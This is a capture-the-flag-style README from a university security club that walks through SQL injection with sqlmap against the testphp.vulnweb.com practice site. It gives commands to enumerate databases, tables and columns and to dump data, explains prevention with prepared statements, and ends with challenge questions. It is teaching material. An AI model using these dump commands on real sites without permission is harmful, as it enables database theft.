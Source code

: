 ## SQLi-sqlmap-challenge
* Author: Kitsios Marios
* Date: 29/11/2021
* Topic: SQLi tool sqlmap
* Challenge created specifically for the Cyber Security Club of University of Macedonia


## Install sqlmap
Instructions for installation of sqlmap here: https://github.com/sqlmapproject/sqlmap
```
$ git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

## Connect 
* Connect to http://testphp.vulnweb.com/

## Find a possible vulnerable location in the website
   * example: http://testphp.vulnweb.com/something.php?something=something
   ```
   If you cant find a potentially vulnerable location in the website
   base64 decode this to get a hint on where it is: aHR0cDovL3Rlc3RwaHAudnVsbndlYi5jb20vbGlzdHByb2R1Y3RzLnBocD9jYXQ9MQ== 
   ```
   
## Use sqlmap to enumerate the databases and to check if the GET parameter that is being passed is vulnerable to SQLi
   There are two ways to do that:
   ```
      sqlmap -u <url> --dbs
             -u Target URL (e.g. "http://www.site.com/vuln.php?id=1")
             --dbs Enumerate the databases
   ```
   * OR
   #Intercept the request with BurpSuite (or whatever you prefer)
   #Save the request in a .txt file (because sqlmap works best with a .txt file)
   ```
      sqlmap -u <url> -r <file_path.txt> --dbs
                      -r Specifies a file to read the get request instead of the url
   ```
   
## List all the tables of a database 
```
  sqlmap -u <url> -D <db_name> --tables
                  -D DBMS database to enumerate
                  --tables  Enumerate DBMS database tables
```

## List information about the columns of a table 
```
   sqlmap -u <url> -D <db_name> -T <table_name> --columns
                                -T Specify a table in a database
                                --columns Query the column names
```

## Retrieve column data from table
```
   sqlmap -u <url> -D <db_name> -T <table_name> -C <column_name> --dump
                                                -C Specify column name to dump data from
                                                --dump Rtrieves the data
```

## Prevent SQL Injection
  SQL injection can be generally prevented by using Prepared Statements . When we use a prepared statement, we are basically using a template for the code and analyzing the code and user input separately. It does not mix the user entered query and the code. A code vulnerability often exists, when the **input entered by the user is directly inserted into the code and they are compiled together, and hence we are able to execute malicious code.** For prepared statements, we basically send the sql query with a placeholder for the user input and then send the actual user input as a separate command. 
  
Consider the following php code segment. https://stackoverflow.com/
```
        $db = new PDO('connection details');
        $stmt = db->prepare("Select name from users where id = :id");
        $stmt->execute(array(':id', $data));
```
*In this code, the user input is not combined with the prepared statement. They are compiled separately. So even if malicious code is entered as user input, the program will simply treat the malicious part of the code as a string and not a command. 

## Questions to be answered:
  * 1.Which DBMS is being used and what version is it*
  * 2.What are the names of the two databases*
  *3.How many tables are there in the database acuart*
  *4.What kind of data type is being stored in the “adsec” column of the table “artists”*
  #5.What is the 1st value of “aname” column of the table “artists” and the database “acuart”
